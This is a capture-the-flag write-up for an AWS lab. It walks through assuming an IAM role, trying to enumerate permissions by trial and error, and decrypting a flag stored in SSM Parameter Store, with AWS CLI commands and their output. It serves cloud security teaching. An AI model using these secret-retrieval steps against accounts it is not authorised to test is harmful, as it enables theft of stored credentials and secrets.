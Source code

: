 # Cloudfoxable 4 - It's Another Secret

## Challenge Statement

In this challenge, we were tasked with retrieving a hidden flag stored in AWS Systems Manager (SSM) Parameter Store. The challenge provided access to an IAM role named `Ertz`, which we needed to assume in order to enumerate permissions and locate the flag. This exercise tested our ability to assume roles, enumerate IAM permissions, and interact with AWS services to extract sensitive data.

## Analysis

The challenge required assuming the `Ertz` role from a starting user, `ctf-starting-user`. After assuming the role, we needed to analyze its permissions and find the flag stored in AWS SSM.

### **Step 1: Assuming the Ertz Role**

The first step was to assume the `Ertz` role. We did this by editing our AWS credentials configuration file (`~/.aws/config`) to include a new profile for `ertz`:

```ini
[profile ertz]
region = us-west-2
role_arn = arn:aws:iam::418295694570:role/Ertz
source_profile = cloudfoxable
```

After adding the profile, we verified that we could successfully assume the role by running:

```bash
aws --profile ertz sts get-caller-identity
```

#### **Output:**

```json
{
  "UserId": "AROAWCZC5YTVN777FU3K4:botocore-session-1742744272",
  "Account": "418295694570",
  "Arn": "arn:aws:sts::418295694570:assumed-role/Ertz/botocore-session-1742744272"
}
```

This confirmed that we successfully assumed the `Ertz` role.

### **Step 2: Enumerating IAM Permissions**

Once we assumed the `Ertz` role, the next step was to enumerate its permissions. We attempted to retrieve user policies:

```bash
aws --profile ertz iam get-user-policy --user-name Ertz
```

However, this resulted in an error because the `ertz` role did not have permission to list user policies. Similarly, trying to list attached policies failed:

```bash
aws --profile ertz iam list-attached-user-policies --user-name Ertz
```

#### **Error Output:**

```plaintext
An error occurred (AccessDenied) when calling the ListAttachedUserPolicies operation: User is not authorized.
```

Since we could not enumerate policies directly, we had to rely on trial and error to test available permissions.

### **Step 3: Searching for the Flag**

Based on prior challenges, we suspected that the flag might be stored in **AWS SSM Parameter Store**. We attempted to retrieve parameters using:

```bash
aws --profile ertz ssm get-parameter --name /cloudfoxable/flag/its-another-secret --with-decryption
```

#### **Successful Output:**

```json
{
  "Parameter": {
    "Name": "/cloudfoxable/flag/its-another-secret",
    "Type": "SecureString",
    "Value": "FLAG{ItsAnotherSecret::ThereWillBeALotOfAssumingRolesInThisCTF}",
    "Version": 1,
    "LastModifiedDate": "2025-02-28T17:12:27.274000+00:00",
    "ARN": "arn:aws:ssm:us-east-1:418295694570:parameter/cloudfoxable/flag/its-another-secret",
    "DataType": "text"
  }
}
```

The flag was successfully retrieved!

## Solution Summary

1. **Assumed the `Ertz` role** using AWS CLI by configuring the profile in `~/.aws/config`.
2. **Verified the role assumption** using `sts get-caller-identity`.
3. **Tested available IAM permissions** by attempting to list policies but encountered access denial.
4. **Retrieved the flag** from AWS SSM Parameter Store using `ssm get-parameter --with-decryption`.
5. **Successfully extracted the flag:**

```
FLAG{ItsAnotherSecret::ThereWillBeALotOfAssumingRolesInThisCTF}
```

## Reflection

### **Approach Taken**

- Configured AWS CLI profiles to assume the target role.
- Verified assumed role identity.
- Used trial and error to determine available permissions.
- Retrieved the secret from AWS SSM using valid permissions.

### **Challenges Faced**

- Limited ability to enumerate permissions due to `AccessDenied` errors.
- Uncertainty about which AWS services contained the flag.
- Ensuring the correct AWS profile was used for role assumption.

### **Security Takeaways**

- **IAM roles should follow the principle of least privilege.**
  - The `Ertz` role had permissions to retrieve SSM parameters but not to enumerate its own policies.
- **SSM SecureStrings should have strict access controls.**
  - Anyone with access to the `ertz` role could retrieve sensitive secrets.
- **Role assumption is a powerful technique in AWS pentesting.**
  - Understanding how to assume roles and test permissions is key to cloud security assessments.

This challenge emphasized the importance of **role-based access control**, **IAM privilege enumeration**, and **secure storage of secrets** within AWS. 🚀
